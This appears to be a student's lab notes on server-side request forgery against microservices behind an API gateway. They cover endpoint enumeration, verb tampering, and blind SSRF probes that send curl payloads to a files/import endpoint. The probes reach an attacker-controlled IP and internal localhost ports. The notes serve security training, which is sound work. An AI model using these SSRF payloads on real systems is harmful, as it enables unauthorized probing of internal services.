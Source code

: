 # Server-Side Request Forgery 
## Intro to Microservices

Many development teams have moved from monolithic web apps to smaller "micro" web services.  

![image](https://user-images.githubusercontent.com/99839823/222589799-18527f6a-b236-4e2d-9654-bb79e8195965.png)

Microservices provide the basic required functionality without dependencies.  

Microservices are often run in containers and must intercommunicate. Containers and their IPs are ephemeral, so they often use DNS for discover. 

Microservices modules expose their functionality by APIs. When an API is running over HTTP or HTTPS, it is called a web service. The two most common types of web services are SOAP and RESTful.  

An API gateway is used to provide a single entry point for the microservices. 

![image](https://user-images.githubusercontent.com/99839823/222592086-d1a0cb1c-2842-4e40-9b0a-321496fbc23f.png)

The microservices usually don't have their own security controls implemented, so bypassing the API gateway can subvert these controls. 

### References: 
https://en.wikipedia.org/wiki/Microservices  
https://en.wikipedia.org/wiki/SOAP  
https://en.wikipedia.org/wiki/Representational_state_transfer#Applied_to_web_services  
https://microservices.io/patterns/apigateway.html  

## Web Service URL Formats

URLs are often parsed with regular expressions. For example, an API gateway might be configured to send any URI that starts with /user to a specific service. 
### References:
https://bestbuyapis.github.io/api-documentation/#create-your-first-query  
https://www.troyhunt.com/your-api-versioning-is-wrong-which-is/  
https://haveibeenpwned.com/API/v3#Authorisation  
https://docs.github.com/en/rest/overview/resources-in-the-rest-api  
https://apiguide.readthedocs.io/en/latest/build_and_publish/use_RESTful_urls.html  

## API Discovery via Verb Tampering   

RESTful APIs often tie functionality to HTTP request methods, or verbs. So a service might have the same URL perform different actions based on the HTTP request's method.

**HTTP Methods**  
- GET: Retrieves data or object
- POST: Creates data or object
- PUT or PATCH: Updates the data of an existing object
- DELETE: Deletes an object

This is all application specific. A RESTful web service might not perform according to the REST standard. 

Regular enumeration tools normally send GET requests. These tools might miss endpoints that do not respond to GET requests. 

### Initial Enumeration

Start with sending an HTTP request to the API gateway with *curl* 
```bash
curl -i http://apigateway:8000
```

The server responds with kong/2.2.1. Looking at google we can see that the admin API runs on port 8001.  

A connection to this is refused. We'll come back to it later. 

Lets use feroxbuster to enumerate endpoints running on port 8000
```bash
feroxbuster -u http://apigateway:8000 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

I copy and pasted the results into a text file and used the command below to clean it up.

```bash
sort endpoints.txt | cut -d" " -f1 | cut -d "/" -f2 > endpoints_sorted.txt
```

I get these results in Burp Suite intruder. Sort by status code. There are four 401 forbidden results. 

Look through all the results. There is an X-Powered-By header that indicates it is a Directus application. 

There seems to be three distinct endpoints: files, users, and render.

### Advanced Enumeration with Verb Tampering
See `route_buster.py`

We get a different result by fuzzing both get and post requests.

Extra mile: put and patch methods are added to the script, the /users/invite endpoint needs an email to make a valid request.
### References:
https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods  
https://konghq.com/kong/  
https://docs.konghq.com/gateway-oss/2.3.x/admin-api/  
https://directus.io/

## Intro to SSRF
SSRF occurs when an attacker can force an application or server to request data or a resource. 
SSRF can be especially effective against microservices, due to bypassing the security controls of a reverse proxy or an API gateway. 

### SSRF Discovery

Always check *url* parameters in an API or web form for an SSRF vulnerability. 

Send payload and try to request file from local machine:

```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.119.138/ssrftest"}' http://apigateway:8000/files/import
```

check apache log on kali: 
```bash
sudo tail /var/log/apache2/access.log
```
This is an unauthenticated blind ssrf vuln

## Source Code Analysis
**Extra Mile**
Review the source code for `/users/invite`. Determine why it cannot be exploited.

**My answer:**
On line 96 the *.verify* function is used on the java web token. 

## Exploiting Blind SSRF in Directus
Since we get different results based off if the resource is there or not we can infer whether a resource exists.
We get 403 forbidden for a valid resource and 500 internal server error for a resource that doesn't exist.

Try to access ports running on target localhost: 
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8000/"}' http://apigateway:8000/files/import
```

If Directus is running on a different server behind the gateway, then "localhost" would refer to the server running Directus, not the server running Kong API Gateway. 

Default port for directus is 8055. 
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8055/"}' http://apigateway:8000/files/import
```

#### Exercises
1. Repeat the steps above.
2. Use the SSRF vulnerability to access a non-HTTP service running on your Kali host. What is the result? How might this be useful?
3. Try to identify more error messages. What happens if you request an invalid IP address?
#### Answers
1. Done
2. I started SSH server and checked that I could enumerate that. 
3. Invalid IPs give an appropriate error message. 

